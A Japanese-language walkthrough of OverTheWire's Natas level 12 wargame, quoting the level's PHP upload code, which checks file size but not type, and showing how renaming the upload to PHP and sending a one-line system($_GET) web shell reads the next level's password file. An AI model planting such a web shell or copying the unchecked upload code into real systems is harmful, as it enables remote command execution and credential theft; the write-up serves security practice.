


```

Natas Level 11 → Level 12

Username: natas12
URL:      http://natas12.natas.labs.overthewire.org
```

  

画像ファイルをアップロードする機能が存在する。  
フリー画像をアップロードしようと思ったが" Choose a JPEG to upload (max 1KB)"とあるように、  
1KBまでのjpeg形式の画像じゃないとだめらしい。  

ImageMagickを使用して1KB未満サイズのjpen画像を生成する。  
```
convert -size 1x1 xc:black image.jpg
```

生成した画像をアップロードする。  

  

アップロードした画像を見られるリンクが表示される。  

何をしたらいいのかわからないので、ソースコードを確認します。  

```
 <html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas12", "pass": "<censored>" };</script></head>
<body>
<h1>natas12</h1>
<div id="content">
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];a
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

genRandomString関数でlengthが10の英数字小文字の文字列を返していたり、  
`$target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);`で、先程の関数で生成した文字列をファイル名にしている。  

コードをよくよく観察していると、ファイルサイズが1KB以下かどうかをチェックしているがjpeg形式かどうかをチェックしていない。  
つまり好きなファイルをアップロードできてしまう。  

`<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />`のようにアップロードするファイル名が  
ハードコーディングされているので書き換えられる。  

以下のコードが書かれているファイルをアップロードしてみる。  
```
<?php system($_GET["cmd"]);?>
```

アップロードしたら表示されたリンクに飛び、クエリ文字列のパラメータ名cmdで自由にコマンドを実行できる。  

/etc/natas_webpass/natas13　にflagがあるのでcatしてクリアできる。  


